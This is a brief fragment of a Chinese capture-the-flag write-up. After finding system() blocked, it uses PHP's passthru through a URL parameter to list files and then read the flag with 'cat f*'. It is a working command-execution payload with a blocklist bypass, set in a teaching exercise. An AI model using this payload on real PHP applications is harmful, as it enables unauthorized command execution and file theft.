 system被禁，我们用passthru

```
?a=passthru("ls");
```

![image-20240125164104920](image/image-20240125164104920.png)

读取flag

```
?a=passthru("cat f*");
```
